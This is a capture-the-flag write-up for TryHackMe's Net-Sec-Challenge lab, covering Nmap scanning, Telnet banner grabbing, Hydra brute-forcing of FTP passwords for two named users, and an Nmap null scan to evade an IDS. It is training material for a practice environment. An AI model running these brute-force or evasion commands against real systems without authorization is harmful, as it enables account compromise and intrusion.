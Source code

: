 # Net-Sec-Challenge Writeup

This is a formal writeup for the **Net-Sec-Challenge** room on TryHackMe rated as medium. The challenge tests the skills learned in the Network Security module, using tools like **Nmap**, **Telnet**, and **Hydra**. The following sections cover each question and how it was solved.

---

## Question 1

**What is the highest port number being open less than 10,000?**

Command used:

```bash
nmap -p1-10000 <TARGET_IP>
```

Result: The highest port open below 10,000 was **8080 (http-proxy)**.

---

## Question 2

**There is an open port outside the common 1000 ports; it is above 10,000. What is it?**

Command used:

```bash
nmap -p- <TARGET_IP>
```

Result: The open port above 10,000 was **10021**.

---

## Question 3

**How many TCP ports are open?**

Using the same full scan as above (`nmap -p-`), we counted a total of **6 open TCP ports**.

---

## Question 4

**What is the flag hidden in the HTTP server header?**

We connected to port 80 using Telnet:

```bash
telnet <TARGET_IP> 80
```

Then sent a basic HTTP request:

```http
GET / HTTP/1.1
Host: http
```

The server responded with headers that contained the flag.

*Note:* An alternative way would have been using Nmap with service detection:

```bash
nmap -sC -p80 <TARGET_IP>
```

---

## Question 5

**What is the flag hidden in the SSH server header?**

We connected to port 22 using Telnet:

```bash
telnet <TARGET_IP> 22
```

The SSH banner revealed the flag.

*Note:* Similar to Q4, this could also be obtained with:

```bash
nmap -sC -p22 <TARGET_IP>
```

---

## Question 6

**We have an FTP server listening on a nonstandard port. What is the version of the FTP server?**

We ran a service version scan:

```bash
nmap -p- -sV <TARGET_IP>
```

Result: The FTP server was identified as **vsftpd 3.0.5**.

---

## Question 7

**We learned two usernames using social engineering: `eddie` and `quinn`. What is the flag hidden in one of these two account files and accessible via FTP?**

To brute-force the FTP credentials, we used Hydra:

```bash
hydra -l eddie -P /usr/share/wordlists/rockyou.txt ftp://<TARGET_IP>:10021
hydra -l quinn -P /usr/share/wordlists/rockyou.txt ftp://<TARGET_IP>:10021
```

Once valid credentials were found, we logged in:

```bash
ftp <TARGET_IP> 10021
```

After authenticating, one of the accounts contained a file with the hidden flag.

---

## Question 8

**Browsing to http\://\<TARGET\_IP>:8080 displays a small challenge that will give you a flag once you solve it. What is the flag?**

Visiting the page led to a challenge about bypassing an IDS using Nmap. Techniques include decoys (`-D`) or null scans (`-sN`).

In this case, the following worked:

```bash
nmap -sN <TARGET_IP>
```

The scan completed successfully and the page revealed the final flag.

---

## Conclusion

This challenge reinforced fundamental skills in:

* Enumerating services with **Nmap**
* Extracting information from banners with **Telnet**
* Cracking credentials with **Hydra**
* Using FTP clients to retrieve sensitive files
* Understanding IDS evasion with Nmap scan types

The **Net-Sec-Challenge** demonstrates how simple tools can uncover sensitive information if services are misconfigured or use weak credentials.
